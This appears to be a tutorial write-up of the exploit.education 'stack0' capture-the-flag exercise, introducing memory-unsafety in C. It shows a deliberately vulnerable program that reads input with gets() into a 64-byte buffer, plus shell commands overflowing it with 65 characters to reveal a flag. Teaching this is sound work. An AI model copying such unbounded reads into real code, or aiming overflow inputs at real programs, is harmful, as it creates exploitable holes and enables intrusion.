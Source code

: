 ```yaml
---
title: Stack Vulnerabilities
author: Federico Casu
date: April 23, 2024
header-includes: |
    \usepackage{subcaption}
    \usepackage{tikz}
    \usepackage{listings}

    \definecolor{codegreen}{rgb}{0,0.6,0}
    \definecolor{codegray}{rgb}{0.5,0.5,0.5}
    \definecolor{codepurple}{rgb}{0.58,0,0.82}

    \lstdefinestyle{my_style}{   
        commentstyle=\color{codegreen},
        basicstyle=\ttfamily\footnotesize,
        keywordstyle=\color{magenta},
        numberstyle=\tiny\color{codegray},
        stringstyle=\color{codepurple},
        breakatwhitespace=false,         
        breaklines=true,
        keepspaces=true,
        showspaces=false,
        showstringspaces=false,
        showtabs=false,
        tabsize=2,
    }

    \lstset{style=my_style}
---
```


# `stack0.c`: Introduction to memory-*un*safety
The White House is urging programmers to move away from older programming 
languages like `C` and `C++` in favor of “memory-safe” languages like Rust.
There’s evidence that building software with memory-safe languages can reduce 
vulnerabilities and prevent cyberattacks. 

What do we mean by "memory-unsafe" languages? Let's take a look at the following
program:

\begin{lstlisting}[frame=single, language=C, caption=\texttt{stack0.c}]
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

extern void printflag();
char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  puts("Welcome to stack0, brought to you by https://exploit.education\n");

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
    printflag();
  } else
    puts("Uh oh, 'changeme' has not yet been changed.\n"
         "Would you like to try again?");

  exit(0);
}
\end{lstlisting}

Apparently, `stack0.c` is a simple program that copies from `stdin` into 
`locals.buffer`. An inexperienced programmer would expect that the program takes
the `else` branch whenever it is run. Are we sure? Let's try to write a string
which is shorter (or equal) than 64 characters:

~~~
~/stack0 $ python3 -c 'print("A"*64)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
~/stack0 $ python3 -c 'print("A"*64)' | ./stack0
Welcome to stack0, brought to you by https://exploit.education
Uh oh, 'changeme' has not yet been changed.
Would you like to try again?
~~~

What will it happen if we write a string which is longer than 64 characters?

~~~
~/stack0 $ python3 -c 'print("A"*65)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
~/stack0 $ python3 -c 'print("A"*65)' | ./stack0
Welcome to stack0, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
SNH{You_doing_great_stack0}
~~~